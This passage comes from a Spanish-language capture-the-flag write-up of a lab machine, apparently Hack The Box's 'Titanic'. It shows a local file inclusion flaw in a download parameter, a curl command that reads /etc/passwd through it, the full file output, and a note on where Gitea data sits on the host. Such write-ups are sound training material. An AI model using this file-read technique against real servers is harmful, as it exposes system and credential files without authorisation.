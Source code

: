 parametro `ticket` en `titanic.htb/download` sin sanitizacion.

### LFI

```
curl 'http://titanic.htb/download?ticket=/etc/passwd'
```

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```

usuario valido `developer`.

El directorio `/data` del contenedor de gitea esta mapeado al host en 
`/home/developer/gitea/data`:
